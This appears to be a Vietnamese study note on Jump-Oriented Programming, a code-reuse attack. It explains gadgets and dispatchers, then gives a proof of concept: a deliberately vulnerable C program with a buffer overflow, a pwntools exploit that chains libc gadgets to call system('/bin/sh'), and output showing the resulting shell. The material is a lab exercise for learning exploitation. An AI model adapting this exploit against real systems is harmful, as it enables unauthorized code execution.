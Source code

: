 # JOP - Jump Oriented Programming

-	đây là kĩ thuật control flow bằng cách sử dụng JMP instruction
-	JOP gadgets thường ở dạng "instruction phù hợp exploit + JMP instruction".Ex
	-	lưu 0 vào arg đầu tiên ở môi trường x64:  `mov rsi,	0; jmp [r9]`
	-	lưu giá trị của thanh ghi rsp đang chứa vào arg thứ 2 trong môi trường x64: `mov rsi, [rsp]; jmp [r9]`
-	JOP có yêu cầu là cần phải tách biệt cả về gadget lẫn cấu trúc để có thể execute nhiều gadgets
	-	Ex về JOP
		-	giá trị địa chỉ của JOP gadgets được lưu ở 0x1000~0x1018
		-	ở thanh ghi rdx, giá trị `địa chỉ mà JOP gadgets chứa - 0x8` (0x1000) được lưu tại đây.
		-	địa chỉ của dispatcher gadgets bị ghi đè bởi bof
		-	dispatcher gadget hoạt động như sau:
			-	8 được + vào giá trị (0x1000) lưu ở rdx thông qua `add rdx, 8` (rdx:0x1008) 
			-	hàm `jmp [rdx]` sẽ nhảy vào địa chỉ (0xffff0010) được trỏ bởi rdx (0x1008)
		-	JOP gadget 0xffff0010 hoạt động như sau:
			-	`mov rax, [rax]` lấy giá trị trỏ bởi rax gán vào rax
			-	nhảy đến dispatcher gadgets bằng `jmp rsi`


![](https://i.imgur.com/h2upXRy.png)

**Jump-Oriented Programming: A New Class of Code-Reuse Attack**

>-	https://www.comp.nus.edu.sg/~liangzk/papers/asiaccs11.pdf
>-	https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.pdf

# Proof of Concept
source:
```c
//gcc -fno-stack-protector -o jop jop.c -ldl -no-pie
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
  
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

cách thức JOP:

-	lưu địa chỉ của system() vào rax
-	lưu 1st arg (địa chỉ của '/bin/sh\x00') vào rdi dùng JOP và gọi system thông qua `jmp rax`

source py:
```py
from pwn import *

elf = ELF('./jop')
r = process(elf.path)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

r.recvuntil('Printf() address : ')
leak = int(r.recvuntil('\n'),16)
libc.address = leak - libc.sym['printf'] 
#	Note: các gadget đều được tìm = rp++
pop_rax =libc.address + 0x0003a737
pop_rdi_jmp_rax = libc.address + 0x00104112
binsh = next(libc.search('/bin/sh'))

payload =	'A'*0x48
payload +=	p64(pop_rax)
payload +=	p64(libc.sym['system'])
payload +=	p64(pop_rdi_jmp_rax)
payload +=	p64(binsh)

r.sendline(payload)
r.interactive()
```
```bash
$ python script.py [*] '/home/xfeebe/research/JOP/jop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/xfeebe/research/JOP/jop': pid 12700
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
$ id
uid=1000(xfeebe) gid=1000(xfeebe) groups=1000(xfeebe),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ 
```
# References
>-	http://www.cs.binghamton.edu/~mkayaalp/jop.h`tml
>-	https://www.comp.nus.edu.sg/~liangzk/papers/asiaccs11.p`df
>-	https://repository.lib.ncsu.edu/bitstream/handle/1840.4/4135/TR-2010-8.p`df
>-	https://www.abigale.xin/J`OP/


